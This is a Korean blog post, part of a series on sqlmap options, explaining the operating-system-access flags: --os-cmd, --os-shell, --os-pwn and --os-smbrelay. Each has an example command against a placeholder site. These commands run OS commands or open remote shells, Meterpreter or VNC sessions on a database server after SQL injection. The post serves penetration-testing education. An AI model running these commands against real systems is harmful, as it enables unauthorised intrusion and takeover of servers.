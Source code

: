 ```yaml
---
layout: single
title:  "SQLi-sqlma 옵션 리스트 03"
categories: SQLi
tag: [SQLi, sqlmap, 이론, 옵션]
toc: true
author_profile: false
---
```


**[공지사항]** [본 블로그에 포함된 모든 정보는 교육 목적으로만 제공됩니다.](https://weo0o0.github.io/notice/notice/)
{: .notice--danger}

**[SQLi-sqlma 옵션 리스트 01]**[SQLi-sqlma 옵션 리스트 01로 이동 합니다.](https://weo0o0.github.io/sqli/SQLi-sqlmap-otion-01/)
{: .notice--success}

## 운영 체제 접근(Operating system access)

이 옵션들은 백엔드 데이터베이스 관리 시스템의 운영 체제에 접근하는 데 사용됩니다.

1. **--os-cmd=OSCMD**:
   
   **설명**: 운영 체제 명령을 실행합니다.
   {: .notice--danger}
   **사용법**: 데이터베이스 서버에서 직접 운영 체제 명령을 실행하려고 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-cmd="ipconfig"`
   {: .notice--danger}

2. **--os-shell**:
   
   **설명**: 인터랙티브 운영 체제 셸을 실행합니다.
   {: .notice--danger}
   **사용법**: 데이터베이스 서버의 운영 체제 셸을 인터랙티브로 사용하고자 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-shell`
   {: .notice--danger}

3. **--os-pwn**:
   
   **설명**: OOB 셸, Meterpreter 또는 VNC를 위한 프롬프트를 실행합니다.
   {: .notice--danger}
   **사용법**: 외부로부터 데이터베이스 서버의 셸을 장악하려고 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-pwn`
   {: .notice--danger}

4. **--os-smbrelay**:
   
   **설명**: 한 번의 클릭으로 OOB 셸, Meterpreter 또는 VNC를 위한 프롬프트를 실행합니다.
   {: .notice--danger}
   **사용법**: SMB 릴레이 공격을 통해 셸을 장악하려고 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-smbrelay`
   {: .notice--danger}

